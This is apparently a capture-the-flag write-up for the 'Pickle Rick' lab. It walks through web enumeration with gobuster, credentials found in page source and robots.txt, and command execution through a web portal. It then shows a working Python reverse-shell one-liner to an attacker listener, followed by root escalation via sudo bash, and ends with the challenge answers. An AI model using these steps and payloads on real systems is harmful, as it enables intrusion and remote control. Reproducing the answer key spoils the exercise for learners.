 # Task 1 [Pickle Rick]
----

>>This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

----

# MY DOCUMENTATION
----

>> THIS ARE THE WEB CONTENTS WE SEE WHEN WE NAVIGATE TO THE WEBSITE.  

```web-contents
Help Morty!

Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!

I need you to *BURRRP*....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is, I have no idea what the *BURRRRRRRRP*, password was! Help Morty, Help!
```

>>THIS IS THE SOURCE CODE OF THE WEBSITE WHICH HAS THE USERNAME FOR THE LOGIN PAGE IN COMMENTS. 

```html [source code]
<!DOCTYPE html>
<html lang="en">
<head>
  <title>Rick is sup4r cool</title>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <link rel="stylesheet" href="assets/bootstrap.min.css">
  <script src="assets/jquery.min.js"></script>
  <script src="assets/bootstrap.min.js"></script>
  <style>
  .jumbotron {
    background-image: url("assets/rickandmorty.jpeg");
    background-size: cover;
    height: 340px;
  }
  </style>
</head>
<body>

  <div class="container">
    <div class="jumbotron"></div>
    <h1>Help Morty!</h1></br>
    <p>Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!</p></br>
    <p>I need you to <b>*BURRRP*</b>....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is,
    I have no idea what the <b>*BURRRRRRRRP*</b>, password was! Help Morty, Help!</p></br>
  </div>

  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->

</body>
</html>
```

>>USING GOBUSTER TO FIND HIDDEN DIRECTORIES IN THE WEB PAGE.

```bash
root@ip-10-10-122-9:~# gobuster dir -u http://10.10.187.213 -w /usr/share/dirb/wordlists/big.txt -x php,js,css,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.187.213
[+] Threads:        10
[+] Wordlist:       /usr/share/dirb/wordlists/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,js,css,html
[+] Timeout:        10s
===============================================================
2021/11/30 08:09:33 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.js (Status: 403)
/.htaccess.css (Status: 403)
/.htaccess.html (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.js (Status: 403)
/.htpasswd.css (Status: 403)
/.htpasswd.html (Status: 403)
/.htpasswd.php (Status: 403)
/assets (Status: 301)
/denied.php (Status: 302)
/index.html (Status: 200)
/login.php (Status: 200)
/portal.php (Status: 302)
/robots.txt (Status: 200)
/server-status (Status: 403)
===============================================================
2021/11/30 08:09:42 Finished
===============================================================


```

>>WE SEE THIS CONTENT WHEN WE NAVIGATE TO THE robots.txt DIRECTORY.MAY BE IT IS THE PASSWORD TO LOGIN WITH THAT USERNAME WE FOUND EARLIER IN THE SOURCE CODE.

```CONTENT_IN_ROBOTS.TXT
Wubbalubbadubdub
```

>>GO TO login.php ENTER THE CREDS WE FOUND AND LOGIN.
>>AFTER LOGGING IN THE WEBSITE REDIRECTS TO portal.php WHERE WE SEE A COMMAND PALETTE WHICH CAN RUN COMMANDS.
>>USING ls TO LIST THE CONTENTS.THERE ARE SOME BLACKLISTED COMMANDS THAT WE CANNOT USE LIKE "cat","less"..
>>SO USE grep COMMAND WITH REGEX " . " WHICH MEANS ALL AND THE FILE NAME TO GET THE INFO.

```WEB-CONTENTS-IN-PORTAL.PHP
COMMAND PALETTE ls
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt

COMMAND PALETTE grep . clue.txt

```

>>THERE ARE NO NETCAT BUT IT HAS PYTHON3 INSTALLED IN THIS TARGET SO WE USE PYTHON TO GET THE REVERSE SHELL.CREATE A NETCAT SESSION TO GET A REVERSE SHELL.
>>AFTER GETTING THE REVERSE SHELL STABILIZE THE SHELL 
>>THEN CAT THE Sup3rS3cretPickl3Ingred.txt TO GET THE FIRST INGREDIENT.
>>NAVIGATE TO /home/rick/ AND CAT SECOND INGREDIENT. 

```bash 
## PYTHON REVERSE SHELL:
****
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.122.9",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
****

root@ip-10-10-122-9:~# nc -lvnp 9001
Listening on [0.0.0.0] (family 0, port 9001)
Connection from 10.10.187.213 57392 received!
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c "import pty; pty.spawn('/bin/bash')"
www-data@ip-10-10-187-213:/var/www/html$ ^Z
[1]+  Stopped                 nc -lvnp 9001
root@ip-10-10-122-9:~# stty raw -echo && fg
nc -lvnp 9001

www-data@ip-10-10-187-213:/var/www/html$ export TERM=xterm
www-data@ip-10-10-187-213:/var/www/html$ 
www-data@ip-10-10-187-213:/var/www/html$ cat Sup3rS3cretPickl3Ingred.txt 
mr. meeseek hair
www-data@ip-10-10-187-213:/var/www/html$ cd /home
www-data@ip-10-10-187-213:/home$ ls
rick  ubuntu
www-data@ip-10-10-187-213:/home$ cd rick
www-data@ip-10-10-187-213:/home/rick$ ls
second ingredients
www-data@ip-10-10-187-213:/home/rick$ cat second\ ingredients 
1 jerry tear
```

>>TO ESCALATE OUR PRIVILEGE AS ROOT USE LINPEAS TO CHECK THE VULNERABLE PART FOR ESCALATION.
>>IT SHOWS THERE IS A VULNERABILITY WITH bash WITH THAT WE CAN BE ROOT  
>>IF WE RUN THE COMMAND "sudo bash" THERE WE GOT OUR SHELL AS ROOT.
>> NAVIGATE TO root DIRECTORY AND CAT THE 3rd.txt TO GET THE THIRD INGREDIENT.

```bash 
www-data@ip-10-10-187-213:/var/www/html$ sudo bash
root@ip-10-10-187-213:/# cd root
root@ip-10-10-187-213:~# ls
3rd.txt  snap
root@ip-10-10-187-213:~# cat 3rd.txt 
3rd ingredients: fleeb juice
```

----

# ANSWER THE FOLLOWING
----
Deploy the virtual machine on this task and explore the web application: MACHINE_IP
1.What is the first ingredient Rick needs?
>>mr . meeseek hair

2.Whats the second ingredient Rick needs?
>>1 jerry tear

3.Whats the final ingredient Rick needs?
>>fleeb juice 

----